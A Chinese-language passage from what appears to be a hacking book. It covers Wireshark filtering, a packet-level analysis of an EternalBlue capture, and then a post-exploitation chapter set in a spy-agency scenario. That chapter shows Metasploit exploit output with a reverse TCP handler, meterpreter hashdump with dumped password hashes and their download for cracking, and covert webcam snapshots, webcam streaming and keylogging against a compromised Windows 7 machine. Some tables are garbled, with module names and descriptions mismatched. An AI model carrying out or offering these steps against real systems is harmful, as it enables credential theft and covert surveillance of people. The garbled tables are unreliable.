近年来，`Wireshark` 已成为事实上的嗅探器标准。它以前被称为 `Ethereal`，现在是每个网络或安全管理员工具箱中的一部分，或者说应该是。Kali 内置了 `Wireshark`，因此只需在终端中输入 `Wireshark` 或使用图形用户界面即可启动 `Wireshark`；前往“应用程序 --> 常用应用程序 --> 互联网 --> Wireshark”。


学习

用户指南 · 维基 · 问答 · 邮件列表

你正在运行 `Wireshark 2.6.3 (v2.6.3-0-ga62e6c27)`。你会收到自动更新。

`Wireshark` 现在会打开并询问你要监听的接口。如果你使用的是虚拟机，请选择 `eth0`。如果你使用的是带有无线网卡的物理机，请选择无线网卡（通常是 `wlan0`）。通常，你可以通过活动级别来确定选择哪个适配器。活动最频繁的适配器很可能就是你要用于嗅探的适配器。


现在，`Wireshark` 开始从你的网络接口捕获数据包，并将它们打包成 `.pcap` 格式。`Pcap` 是数据包捕获的标准文件格式（你在行业中诸如 `Snort`、`aircrack-ng` 等众多产品中都看到过它的使用）。你在 `Wireshark` 中看到三个独立分析窗口。顶部窗口，在下方的截图中标记为 #1，被称为数据包列表窗格（Packet List Pane）。你应该会看到带有颜色编码的数据包实时通过该窗口移动。

中间窗口，标记为 #2，被称为数据包详情窗格（Packet Details Pane）。此窗格提供窗口 #1 中选中报文的头部信息。

最后，窗口 #3，数据包字节窗格（Packet Bytes Pane），提供负载信息，左侧为十六进制格式，右侧为 ASCII 格式。

### 在 Wireshark 中创建过滤器

一般来说，这里的信息太多了，无法进行有效的分析。数据包以每分钟数百或数千个的速度飞过。为了有效使用 `Wireshark`，我们需要过滤流量，以查看感兴趣的数据包。`Wireshark` 具有一种简单的过滤语言，为了在任何调查或分析中有效且高效地使用该语言，你需要理解它。


飞过我们接口的数据包涉及许多不同的协议。我们想要应用的第一种过滤器很可能是协议过滤器。记住，TCP/IP 是一组协议，我们可能希望将分析重点集中在少数几种协议上。

在过滤窗口中，输入 "tcp"。你会注意到它变成绿色，表明你的语法是正确的（如果语法不正确，它会保持粉红色）。现在，点击过滤窗口最右侧的箭头按钮以应用过滤器。

这样做时，`Wireshark` 过滤掉所有流量，除了 TCP 流量。你几乎可以对任何协议执行相同的操作，例如“http”、“smtp”、“udp”、“dns”以及许多其他。尝试一些并查看有哪些类型的流量正在通过你的接口。

如果我们只想看来自特定 IP 地址的流量，我们可以创建一个仅显示来自该地址或发往该地址的流量的过滤器。我们可以通过在过滤窗口中输入：`ip.addr==<IP address>` 来实现。请注意 `Wireshark` 过滤语法中的双等号（==）（类似于 C 语言中的赋值运算符）。单个 "=" 在此语法中不生效。

在我这里的例子中，我想查看来自或发往 IP 地址 192.168.1.107 的流量，所以我创建了如下过滤器：`ip.addr == 192.168.1.107`。


现在，你只看到来自或发往该 IP 地址的流量。现在我的分析和关注范围缩小到一个感兴趣的 IP 地址。

我们还可以按端口过滤流量。如果我只想查看发往端口 80 的 TCP 流量，我可以创建如下过滤器；`tcp.dstport==80`

请注意，此过滤器指定了协议 (tcp)、方向 (dst) 和端口 (80)。

在创建过滤器时，我们最常使用 "==" 作为过滤器中的运算符（还有其他，见下文）。

只要我们是在查找协议中的许多头部字段之一，这种语法就工作得很好。如果我们是在查找负载中的字符串，我们必须使用 "contains" 运算符。因此，如果我正在查找包含单词 "Facebook" 的数据包，我们可以创建如下过滤器。

```
tcp contains facebook
```


## WireShark - 显示过滤器表达式

| 字段名称 | 关系 | 值 |
| :--- | :--- | :--- |
| 104apci - IEC 60870-5-104-Apci | 存在 (is present) | 预定义值 |
| 104asdu - IEC 60870-5-104-Asdu | == | 范围 (offset/length) |
| 29west - 29West Protocol | != | 搜索: |
| 24parityfec - Pro-MPEGi Code of Practice #3 release 2 FEC Protocol | <= | 无显示过滤器 |
| 3COMXNS - 3Com XNS Encapsulation | > | 行: |
| 3GPP2 A11 - 3GPP2 A11 | >= | 确定 |
| 6LoWPAN - IPv6 over Low power Wireless Personal Area Networks | < | 取消 |
| 802.11 Radio - 802.11 radio information | contains | 帮助 |
| 802.11 Radiotap - IEEE 802.11 Radiotap Capture header | matches | 配置: Default |
| 802.11 RSNA EAPOL - IEEE 802.11 RSNA EAPOL key | in |  |
| 802.3 Slow protocols - Slow Protocols |  |  |
| GP - Plan 9 |  |  |
| A21 - A21 Protocol |  |  |
| AAF - AVTP Audio Format |  |  |
| AALL1 - ATM AALL1 |  |  |
| AALL3/4 - ATM AALL3/4 |  |  |
| AARP - AppleTalk Address Resolution Protocol |  |  |
| AA5P - Aastra Signalling Protocol |  |  |
| A-bis OML - GSM A-bis OML |  |  |
| ACAP - Application Configuration Access Protocol |  |  |
| ACN - Architecture for Control Networks |  |  |
| ACP133 - ACP133 Attribute Syntaxes |  |  |
| ACR 122 - Advanced Card Systems ACR122 |  |  |
| ACSE - ISO 8650-1 OSI Association Control Service |  |  |

如上所示，它仅在负载中找到了两个包含单词 Facebook 的数据包，我们可以在 #3 窗格的 ASCII 显示中看到单词 Facebook。

## 使用表达式窗口创建过滤器

如果我们不确定要过滤的字段或如何创建必要的过滤器，我们可以点击最右侧的 Expression 选项卡。这打开了下方的表达式窗口。

此窗口左侧列出了可供我们创建过滤器的长列表字段。这些是数百种协议及这些协议的字段。你可以展开协议并找到其所有字段并选择感兴趣的字段。

右上角的窗口包含`关系（Relation）`选项。这些包括：

- `==` : 等于 (Equal To)
- `!=` : 不等于 (Not Equal To)
- `>` : 大于 (Greater Than)
- `<` : 小于 (Less Than)
- `>=` : 大于或等于 (Greater than or Equal To)
- `<=` : 小于或等于 (Less Than or Equal To)
- `contains` : 协议或字段包含某个值 (Protocol or Field Contains a Value)
- `matches` : 协议或文本字段匹配正则表达式 (Protocol or Text Field Matches a Regular Expression)
- `in` : 在...中 (in)

现在我们可以通过简单地在左窗口选择一个字段；在右上窗口选择一个关系；并在右下窗口选择一个值（值经常是 1 或 0，表示存在或不存在）来创建过滤器。例如，如果我们想找到所有设置了 RST 标志的 tcp 数据包，我们将输入：`tcp.flags.rst==1`

## 跟踪流

在某些情况下，而不是检查特定协议的所有数据包或发往特定端口或 IP 的流量，你想要跟踪通信流。Wireshark 让你能够轻松做到这一点。

如果你试图跟踪例如一个流氓、心怀不满的员工试图对你的网络造成破坏的对话，这种技术可能很有用。

要跟踪一个流，通过点击数据包来选择它，然后右键点击。

## Wi-Fi

| 编号 | 时间 | 来源 | 目标 | 协议 | 长度 | 信息 |
|---|---|---|---|---|---|---|
| 11126 | 129.49746 | 192.168.1.107 | 0.0.0.0 | TLSv1.2 | 54 | TLSv1.2 确认 |
| 11127 | 129.51608 | 192.168.1.107 | 192.125.15.4 | TLSv1.2 | 54 | 应用程序数据（已加密） |
| 11128 | 129.51982 | 192.168.1.107 | 192.125.15.4 | TCP | 54 | 序列号和确认 |
| 11129 | 129.58298 | 192.168.1.107 | 192.125.34.129 | TLSv1.2 | 153 | 应用程序数据 |
| 11130 | 129.58297 | 192.168.1.107 | 192.125.34.129 | TLSv1.2 | 379 | 应用程序数据 |
| 11131 | 129.313694 | 192.125.34.129 | 192.168.1.107 | TCP | 68 | 确认 |
| 11133 | 129.314704 | 192.125.34.129 | 192.168.1.107 | TLSv1.2 | 96 | 应用程序数据 |
| 11134 | 129.358631 | 192.125.34.129 | 192.168.1.107 | TCP | 68 | 确认 |
| 11135 | 129.369957 | 192.168.1.107 | 192.125.34.129 | TCP | 68 | 确认 |
| 11136 | 130.272722 | 192.168.1.107 | 192.70.46.233 | AAA (未知) | - | 数据包 |
| 11157 | 131.489748 | 195.195.60.151 | 192.168.1.107 | 未知协议 | - | - |
| 11158 | 131.98595 | 192.168.1.107 | 192.168.1.107 | 设置/取消时间参考 | - | - |

帧 11158：线路上 54 字节（432 位），捕获 54 字节

Ethernet II, 源: Cisco-LL_97:4f:48 (08:25:9c:97:4f:48)

互联网协议版本 4，源: 192.168.1.1，目标: 192.168.1.107

传输控制协议，源端口: 80，目标端口: 123


这将打开一个如上图所示的下拉窗口。点击“跟踪”（Follow），然后选择“TCP 流”（TCP Stream）。

这将打开一个窗口，其中包含此流中的所有数据包及其内容。请注意窗口左下角的统计信息（5796 字节）以及内容的显示方式（ASCII）。

## 统计信息

最后，我们可能希望对数据包捕获进行统计。这在建立正常流量的基准时特别有用。点击 Wireshark 顶部的“统计信息”（Statistics）选项卡，会出现一个下拉菜单。在我们的案例中，让我们导航到“IPv4 统计信息”（IPv4 Statistics），然后是`所有地址`。


如上所示，Wireshark 列出了每个有活动的 IP 地址以及每个 IP 地址的一些基本统计信息。


现在，既然我们理解了使用 `Wireshark` 等数据包分析器的基础知识，让我们将其应用于一个现实世界的问题——我们在第 9 章中用于利用 Windows 7 系统的 NSA 的 `EternalBlue` 漏洞。

## 使用 Wireshark 分析 NSA 的 EternalBlue 漏洞

贯穿全书，我们一直关注臭名昭著的 `EternalBlue` 漏洞，该漏洞据信被从 NSA 窃取，可能是被俄罗斯黑客窃取的。在本节中，我们想看看从 `Wireshark` 的数据包级别检查 `EternalBlue` 是什么样子的。这种分析可以帮助我们理解 `EternalBlue` 是如何工作的，从而有助于更好的安全防护以防止它（创建反病毒或 IDS 的签名），甚至可能有助于开发类似的漏洞利用程序。

2017 年 4 月，一个被称为 `ShadowBrokers` 的邪恶团体发布了一组从美国国家安全局（NSA）窃取的漏洞利用程序。NSA 负责保护美国公民免受恐怖主义和其他安全威胁，但也以监控美国公民而闻名。在这种角色下，NSA 开发和购买零日漏洞利用程序。NSA 位于马里兰州米德堡的某人窃取了一些漏洞利用程序，并将其提供给这个神秘团体，该团体随后试图在互联网上出售它们。当没有人愿意以最低要价（当然，以比特币计价）购买这些漏洞时，`Shadow Brokers` 将漏洞利用程序发布给了任何想要的人。

在这组漏洞利用程序中，有一个被称为 `EternalBlue`。该漏洞利用了 `445` 端口上服务器消息块（`SMB`）协议的漏洞。该协议允许在局域网上进行文件、驱动器和打印机共享等功能。当漏洞利用程序正常工作时，它使攻击者能够在目标系统上以系统管理员权限执行其代码（RCE）。该漏洞类似于早期（但并非相同，尽管有人如此报告）针对 `SMB` 的名为 `MS08-067` 的漏洞。微软将这种 `EternalBlue` 漏洞指定为 `MS17-010`，并于 2017 年 3 月进行了修补（显然，NSA 知道漏洞利用程序已被窃取并即将发布，因此通知了微软，补丁在漏洞利用程序发布之前就已经可用）。


尽管有微软的补丁，同年稍晚时候，`WannaCry`、`Petya` 和 `NotPetya` 勒索软件（有关此勒索软件的更多信息，请参见第 1 章的“黑客历史”）攻击都利用了 `EternalBlue` 漏洞用于其恶意目的，并在全球范围内造成了破坏。总之，`EternalBlue` 及其衍生变种造成了数十亿美元的损失。

鉴于此漏洞及其后果的严重性，研究它是值得的——不仅是为了识别这种特定的攻击，也是为了对这种类型的攻击足够熟悉，从而识别未来肯定会出现的下一种变种。

你可以从 `Dropbox` 下载 `EternalBlue` 漏洞的 `.pcap` 捕获文件。

从 `Dropbox` 下载 `eternalblue-success-unpatched-win7-1.pcap`。

如果你对微软的 `SMB` 实现不熟悉（甚至大多数专家也不熟悉），并希望了解更多，微软在此处有一个极好的参考。

一旦 `pcap` 文件加载到 `Wireshark` 中，转到数据包 6 和 7。在这里你会看到协议（`SMB`）协商。你应该看到一个`协商协议请求`（`Negotiate Protocol Request`）和`协商协议响应数据包`（`Negotiate Protocol Response packets`）。

这两个数据包启动了 `SMB` 协议通信。


在紧接着的下一个数据包中，你会看到一个`会话设置`（`Session Setup`）和用户“`匿名`”。

随后，两个数据包之后，你应该看到“`树连接`”（`Tree Connect`）和路径：`\\192.168.198.203\IPC$`。这是黑客试图连接到目标机器上的 `IPC` 共享。

你还可以在下方的窗口中看到 `IPC` 共享尝试和 IP 地址。

**仅创建 SMB 流量的过滤器** 而不是查看所有数据包，让我们只关注 `SMB` 数据包。在过滤器窗口中输入“`SMB`”，那么你应该只会在顶部的实时窗口中看到 `SMB` 数据包。这应该使我们的进一步分析更加简单明了。

### NT Trans 请求

接下来，漏洞利用程序发送出包含相当大负载（参见中间窗口）和大量 `NOP`（无操作）的 `NT Trans Request`（`NT Trans` 请求）。你可以在 `Wireshark` 的下方窗口中看到 `NOP`。

`NOP` 是无操作，CPU 周期被消耗，但什么也没做。`NOP` 在缓冲区溢出漏洞利用中很常见（有关缓冲区溢出的更多信息，参见[https://www.hackers-arise.com/post/2017/05/26/exploit-development-part-1-anatomy-of-buffer-overflows](https://www.hackers-arise.com/post/2017/05/26/exploit-development-part-1-anatomy-of-buffer-overflows)）。该攻击正在为利用系统所需的特制数据包准备 `SMB`。


| 编号 | 时间 | 来源 | 目标 | 协议 | 长度 | 信息 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 7 | 0.002461 | 192.168.198.203 | 192.168.198.204 | SMB | 173 | 协商协议响应 |
| 8 | 0.002463 | 192.168.198.204 | 192.168.198.203 | SMB | 194 | 会话设置 AndX 请求，用户: 匿名 |
| 9 | 0.002639 | 192.168.198.203 | 192.168.198.204 | SMB | 251 | 会话设置 AndX 响应 |
| 10 | 0.002951 | 192.168.198.204 | 192.168.198.203 | SMB | 154 | 树连接 AndX 请求，路径: \\192.168.198.203\IPC$ |
| 11 | 0.002952 | 192.168.198.203 | 192.168.198.204 | SMB | 154 | 树连接 AndX 响应 |
| 12 | 0.003035 | 192.168.198.204 | 192.168.198.203 | SMB | 136 | Trans2 请求，SESSION_SETUP |
| 13 | 0.002954 | 192.168.198.203 | 192.168.198.204 | SMB | 63 | Trans2 响应，SESSION_SETUP，错误: STATUS_NOT_IMPLEMENTED |
| 14 | 0.004062 | 192.168.198.204 | 192.168.198.203 | SMB | 1338 | NT Trans 请求，未知 |
| 15 | 0.005904 | 192.168.198.203 | 192.168.198.204 | SMB | 79 | NT FR: NT 响应，连续 (-0) |
| 16 | 0.009204 | 192.168.198.204 | 192.168.198.203 | SMB | 4207 | Trans2 二级请求，FID: 0x0000 |

```
Process ID High: 0
Signature: 000000000000000000
Reserved1: 0000
> Tree ID: 2048 (\\192.168.198.203\IPC$)
Process ID: 65535
User ID: 2048
```

```
NT Trans Request (Total)
More Count (UCS): 2
Max Setup Count: 1
Reserved: 0000
Total Parameter Count: 30
```


```
0000 00 00 00 03 ff 72 00 41 00 01 00 03 41 00 10 30 48  00 00 42 ..:rA..A.0 00 48 00 00
0010 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  00 00 42 ..:.. ..
0020 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  00 00
0030 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  00 00
0040 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  00 00
0050 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  00 00
0060 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  00 00
0070 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  00 00
0080 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  00 00
0090 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  00 00
00a0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  00 00
00b0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  00 00
00c0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  00 00
00d0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  00 00
00e0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  00 00
00f0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  00 00
0100 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  00 00
0110 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  00 00
0120 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  00 00
```


这个庞大的 `NT Trans` 请求导致了大量由请求尺寸过大而引发的 `Secondary Trans2` 请求。这些请求充当了该漏洞的触发点，且请求部分包含 shellcode 和加密的有效载荷，这是远程机器上恶意软件的启动器。

## Trans2 响应

现在，让我们向下导航到数据包 `#165`。在这里我们看到了一个带有 `STATUS_INVALID_PARAMETER` 状态的 `Trans2` 响应。这是受害者机器的响应，这意味着覆盖操作已成功。


接下来，让我们检查有效载荷是否已成功安装。如果已安装，我们应该能在其中一个数据包中找到 `SMB Multiplex ID = 82` 字段。现在让我们为该字段创建一个过滤器，并在数据包流中寻找它。

正如上面所示，我们确实找到了一个 SMB Multiplex ID 设置为 82 的数据包。

# 跟踪数据流

最后，如果我们在上面步骤 #5 的 Trans2 数据包上右键单击并选择“Follow -> TCP Stream”（跟踪 -> TCP 流），我们可以看到数据包的内容。在这里，我们可以看到创建缓冲区溢出并交付了使此漏洞利用成为可能之有效载荷的内容。


当我们跟踪数据流时，Wireshark 显示如下所示的有效载荷内容。

# 总结

检测和预防网络攻击是网络和信息安全工程师的重要职责。如果不知道攻击在数据包层面是什么样子，这项任务就会变得困难，甚至不可能完成。在这里，通过逐包分析 EternalBlue 攻击，我们可以更好地准备防止此类或类似类型的网络攻击。

Wireshark 是任何信息安全工程师或黑客工具箱中的必备工具。该工具可以为我们的网络中发生的事情提供见解，甚至分析网络攻击以预防它们或重新构建新的攻击。Tcpdump 是一种出色的网络流量分析工具，适用于不可用图形用户界面或系统为远程的情况。

## 练习

在您的实时流量中创建以下 Wireshark 过滤器；

- (1) TCP IP 地址
- (2) TCP 目标 IP 地址
- (3) TCP 标志 RST
- (4) IP DF 标志
- (5) 过滤所有离开您的 IP 地址的流量
- (6) 过滤“hackers-aries”一词

# 11


# 11

# 后渗透

`永远不要变得可预测`

`精通 OWASP`

一旦我们像在第 9 章中那样成功利用目标系统，我们的工作才刚刚开始！我们利用该系统不仅仅是为了进入并发送问候。我们利用系统是为了达到某个目的。在黑客/渗透测试领域，这个目的通常被称为后渗透。在非渗透测试领域，它被称为“获取战利品”。

漏洞利用让我们进入目标系统，而有效载荷使我们能够连接到目标系统并在其内部操作。现在我们已经在内部了，我们需要决定我们要在那里做什么。我们想要：

1. 获取密码？
2. 窃听他们的对话？
3. 在系统上放置键盘记录器以记录他们所有的按键？
4. 打开他们的摄像头，拍摄快照或流式视频？
5. 扫描网络以找到特定系统，例如数据库服务器？
6. 或者仅将目标系统用作跳板以夺取整个网络？


在本章中，我们将假设一种场景，我们代表国家间谍/情报机构工作，并负责出于国家安全目的从目标获取信息。

我们将尝试在目标系统上执行上述列出的每项任务。

## 后渗透能力

一旦进入系统，我们的能力将在一定程度上取决于几个因素。这些因素包括以下：

1. 我们是否拥有系统管理员权限？
2. 我们在系统内部放置了什么有效载荷？
3. 我们利用了哪个服务或应用程序？

在第 9 章中，我们利用了 Windows 7 系统上的 SMB 服务。我们获得了系统管理员权限，并在系统内部放置了 `windows/meterpreter/reverse_http` 有效载荷。

## 搜索后渗透模块

当使用后渗透的 Metasploit 时，我们有 numerous 选项。我们可以通过使用 `search` 命令并输入以下内容来查看 Metasploit 中所有的后渗透模块：`msf5 > search type:post` 如您所见，有超过 300 个后渗透模块。

我们可以通过仅查找可用于 Windows 系统的那些模块来缩小搜索范围（在我们的情况下，我们将使用 Windows 7 系统）。

`msf5 > search type:post platform:windows`


```text
msf5 > search type:post platform:windows
Matching Modules

#   Name                                          Disclosure  Date  Rank    Check  Description
-   ----                                          ----------  ----  ----    -----  -----------
    post/multi/gather/apple_iap_backup                            normal  No     Windows Gather- Apple iOS MobileSync Backup File Collection
    post/multi/gather/checkMalware                              normal  No     Multi Gather Malware verify!
    post/multi/gather/chrome_cookies                            normal  No     Chrome Gather Cookies
    post/multi/gather/dkim_enum                                 normal  No     Multi Gather DNSImailer Connections Settings
    post/multi/gather/dns_bruteforce                            normal  No     Multi Gather DNS Forward Lookup BruteForce
    post/multi/gather/dns_reverse_lookup                        normal  No     Multi Gather DNS Reverse Lookup Scan
    post/multi/gather/dns_srv_lookup                            normal  No     Multi Gather DNS Service Record Lookup Scan
    post/multi/gather/env                                       normal  No     Multi Gather VirtuaBox VM Enumeration
    post/multi/gather/ftp                                         normal  No     Multi Gather Generic Operating System Environment Settings
    post/multi/gather/filezilla_client_cred                     normal  No     Multi Gather FileZilla FTP Client Credential Collection
    post/multi/gather/ireda_web                                 normal  No     Multi Gather Ireda Web Identification
    post/multi/gather/jenkins_cred                              normal  No     Multi Gather PireFox Client Credential Collection
    post/multi/gather/jboss_gather                              normal  No     JBoss Credential Collector
    post/multi/gather/ldap_gather                               normal  No     JeeJiis Credential Collector
    post/multi/gather/lanpass_vault_decrypter                   normal  No     LanPass Vault Decrypter
    post/multi/gather/maven_cred                                normal  No     Multi Gather Maven Credentials Collection
    post/multi/gather/multi_command                             normal  No     Multi Gather PIP Shell Common Resource File
    post/multi/gather/ppass_cred                                normal  No     Multi Gather Ppass Credentials
    post/multi/gather/pigp_cred                                 normal  No     Multi Gather Pigp Instant Messenger Credential Collection
    post/multi/gather/sip_sweep                                 normal  No     Multi Gather SIP Sweep
    post/multi/gather/ssh_sweep                                 normal  No     Multi Gather SSH Sweep
    post/multi/gather/virtualbox_guests                         normal  No     Multi Gather VirtualBox Guest Resource File
    post/multi/gather/run_console_rc_file                       normal  No     Multi Gather Run Console Resource File
```

即使我们将搜索范围缩小到仅限 Windows 系统，Metasploit 中仍有相当多（超过 200 个）的后渗透模块可供我们使用。

除了众多的后渗透模块外，Metasploit 的 `meterpreter` 还内置了许多命令。在 `meterpreter` 提示符下，我们只需输入 `help` 即可查看适用于当前 `meterpreter` 的命令。这些命令并非在所有 `meterpreter` 中通用，而是针对每个特定的 `meterpreter` 而设计的。这意味着我们需要输入 `help` 来查看哪些命令适用于当前使用的 `meterpreter`（请记住，存在许多不同的 `meterpreter`）。

```
meterpreter> help
```

这个列表相当长，但这些都是 `meterpreter` 的核心命令。如果我们往下滚动，可以看到一些用于后渗透的关键命令，包括标准的“用户界面命令”、“网络摄像头命令”和“音频输出命令”。

### 核心命令

| 命令 | 描述 |
| :--- | :--- |
| `?` | 帮助菜单 |
| `background` | 将当前会话置于后台 |
| `bg` | `background` 的别名 |
| `bgkill` | 终止后台运行的 `meterpreter` 脚本 |
| `bglst` | 列出正在运行的后台脚本 |
| `bgrun` | 作为后台线程执行 `meterpreter` 脚本 |
| `channel` | 显示信息或控制活动通道 |
| `close` | 关闭通道 |
| `detach` | 分离 `meterpreter` 会话（适用于 http/https） |
| `disable_unicode_encoding` | 禁用 Unicode 字符串编码 |
| `enable_unicode_encoding` | 启用 Unicode 字符串编码 |
| `exit` | 终止 `meterpreter` 会话 |
| `get_timeouts` | 获取当前会话的超时值 |
| `guid` | 获取会话 GUID |
| `help` | 帮助菜单 |
| `info` | 显示有关 Post 模块的信息 |
| `irb` | 在当前会话上打开交互式 Ruby shell |


## Meterpreter 命令

| `load` | 加载一个或多个 meterpreter 扩展 |
| `machine_id` | 获取连接到该会话的机器的 MSF ID |
| `migrate` | 将服务器迁移到另一个进程 |
| `pivot` | 管理中转监听器 |
| `pry` | 在当前会话上打开 Pry 调试器 |
| `quit` | 终止 meterpreter 会话 |
| `read` | 从通道读取数据 |
| `resource` | 执行存储文件中的命令 |
| `run` | 执行 meterpreter 脚本或 Post 模块 |
| `secure` | （重新）协商会话上的 TLV 数据包加密 |
| `sessions` | 快速切换到另一个会话 |
| `set_timeouts` | 设置当前会话的超时值 |
| `sleep` | 强制 Meterpreter 保持静默，然后重新建立会话。 |
| `transport` | 更改当前传输机制 |
| `use` | "load" 的弃用别名 |
| `uuid` | 获取当前会话的 UUID |
| `write` | 将数据写入通道 |

### Stdapi：用户界面命令

| 命令 | 描述 |
| :--- | :--- |
| `enumdesktops` | 列出所有可访问的桌面和窗口站 |
| `getdesktop` | 获取当前 meterpreter 桌面 |
| `idletime` | 返回远程用户空闲的秒数 |
| `keyboard_send` | 发送按键击打 |
| `keyscan_dump` | 转储按键缓冲区 |
| `keyscan_start` | 开始捕获按键 |
| `keyscan_stop` | 停止捕获按键 |
| `mouse` | 发送鼠标事件 |
| `screenshare` | 实时查看远程用户的桌面 |
| `screenshot` | 获取交互式桌面的屏幕截图 |
| `setdesktop` | 更改 meterpreter 的当前桌面 |
| `uiictl` | 控制部分用户界面组件 |

### Stdapi：网络摄像头命令

| 命令 | 描述 |
| :--- | :--- |
| `record_mic` | 从默认麦克风录制 X 秒的音频 |
| `webcam_chat` | 开始视频聊天 |
| `webcam_list` | 列出网络摄像头 |
| `webcam_snap` | 从指定的网络摄像头拍摄快照 |
| `webcam_stream` | 播放来自指定网络摄像头的视频流 |

### Stdapi：音频输出命令

| 命令 | 描述 |
| :--- | :--- |
| `play` | 在目标系统上播放音频文件，磁盘上未写入任何内容 |

我想强调的是，这些命令因使用的 meterpreter 而异，因此如果您使用的是不同的 meterpreter，请尝试 `help` 命令。其中许多命令在 Linux/UNIX 及其他操作系统（Linux、BSD、UNIX 等）的 meterpreter 中是不可用的。

让我们开始进行后渗透并获取战利品吧！

## Windows 7 中的利用

在第 9 章中，我们使用 NSA 的 EternalBlue 漏洞利用工具攻击了我们的 Windows 7 系统，并获得了 meterpreter 提示符，如下所示。

```
msf exploit(ms17_010_eternalblue) > exploit
[*] Started reverse TCP handler on 192.168.1.101:4444
[*] 192.168.1.103:445 - Connecting to target for exploitation.
[+] 192.168.1.103:445 - Connection established for exploitation.
[+] 192.168.1.103:445 - Target OS selected valid by OS indicated by SMB reply
[*] 192.168.1.103:445 - CORE raw buffer dump (38 bytes)
[*] 192.168.1.103:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 55 6c 74 69 6d 61
   6d 61  Windows 7 Ultimate
[*] 192.168.1.103:445 - 0x00000010  74 65 20 74 65 20 74 65 20 74 65 20 74 65 20 74
   65 20  7601 Service Pack 1
[*] 192.168.1.103:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.1.103:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.1.103:445 - Sending all but last fragment of exploit packet
[*] 192.168.1.103:445 - Starting non-paged pool grooming
[*] 192.168.1.103:445 - Sending SMBv2 buffers
[*] 192.168.1.103:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.1.103:445 - Sending final SMBv2 buffers.
[*] 192.168.1.103:445 - Sending last fragment of exploit packet!
```

```
meterpreter > idletime
User has been idle for: 48 mins 56 secs
meterpreter >
```

现在我们已经取得了目标系统上的 meterpreter 权限，让我们看看可以在内部做些什么。在某些情况下，我们可能希望知道系统是否处于空闲状态以及空闲了多长时间。如果有人在操作该系统，被检测的可能性会增加，尽管我们的活动对于用户来说并不明显，除非他们使用诸如 Windows 任务管理器、Sysinternals 进程监视器或类似工具。

要了解系统已空闲多长时间，我们可以使用内置命令 `idletime`。

```
meterpreter > idletime
```

如您所见，该系统仅空闲了 48 分 56 秒。系统所有者很可能就在附近。谨慎总比丧命好！

如果我们在目标系统上拥有系统管理员权限——就像使用 EternalBlue 漏洞利用工具那样——我们只需使用 `hashdump` 命令即可获取所有密码的所有哈希值。

```
meterpreter > hashdump
```

```
meterpreter > hashdump
Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaae8fb117ad06bdd830b7586c:::
ASPNET:1007:b5a564bc22934f4cb2a6edbb0b98952d6:0f3903151a9afc1afdec9d87a583a48c:::
Guest:501:aad3b435b51404eeaaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
hacker:1010:2ad6d62a57cbe4ddaad3b435b51404ee:a5dc24b1999182b03438ffdaed8d5312:::
IUSR_2K3TARGET:1003:7e24a98ab6dd72ec8ae00eb86c8bb2b8:1900f037b4072bbce07b9e3bb7b4f8ea:::
IWAM_2K3TARGET:1004:071d6126daf6116deb7c5ba280de2f26:1071c94e0321e6deed014d9a5dfcf021:::
SQLDebugger:1009:aad3b435b51404eeaaad3b435b51404ee:73773ed7bd7af499c968a9552eb4540b:::
SUPPORT_388945a0:1001:aad3b435b51404eeaaad3b435b51404ee:0d1cca0a07f89506e188199d4cdf2151:::
meterpreter >
```

```
meterpreter > webcam_list
1: VirtualBox Webcam - HP TrueVision HD
```


既然我们有了这些哈希值，我们可以下载它们，并使用 Kali 中众多密码破解工具之一（如 `hashcat`）进行破解。要将这些哈希值捕获到文件中，只需输入：`meterpreter > hashdump > hashes`。然后，使用 meterpreter 中内置的 `download` 命令。

```
meterpreter > download hashes
```

此外，我们的间谍/情报机构可能希望查看计算机所在房间发生的情况。`meterpreter` 有一个命令可以打开网络摄像头并拍摄一张快照。它被称为 `webcam_snap`。在使用它之前，我们需要检查系统上是否存在网络摄像头以及操作系统分配给它的编号。我们可以使用 `webcam_list` 命令来执行此操作。

```
meterpreter> webcam_list
```

正如上面屏幕截图中所见，目标系统有一个网络摄像头，并且它被被分配了编号 `1`。如果存在多个网络摄像头，我们则需要使用下一条命令中的编号，但由于该命令默认为 `1`，因此此处无需操作。

在这种情况下，我们可以通过输入以下命令指示网络摄像头进行快照：`meterpreter > webcam_snap`。当我们输入该命令时，`meterpreter` 会拍摄一张照片并将其显示在我们的桌面屏幕上。


现在，我们拥有了一张对手坐在其电脑后的照片！

请注意，它拍摄了快照，并将快照保存在 `/root` 目录下，使用了一个随机名称（`hzMVZRTv.jpeg`）并添加了 `.jpeg` 扩展名。

### 传输网络摄像头视频流

在某些情况下，我们的上级可能希望获取目标计算机所在房间的活动视频流。让我们前往该地点的另一台计算机，利用漏洞并传输视频流。执行此操作的命令是：`meterpreter > webcam_stream`

该命令将在您的系统上打开默认浏览器（在此例中为 Mozilla Firefox），并开始将摄像头视频实时传输到浏览器中，效果如下所示。

### 键盘记录器或如何查看每次击键

作为间谍，我们可能希望捕获目标输入的所有击键。这可能揭示秘密和机密计划、密码及其他信息。你可能熟悉硬件键盘记录器。硬件键盘记录器通常物理放置在目标系统上，然后记录键盘的所有击键，例如在亚马逊上销售的这种键盘记录器。

Metasploit 中的键盘记录器略有不同。

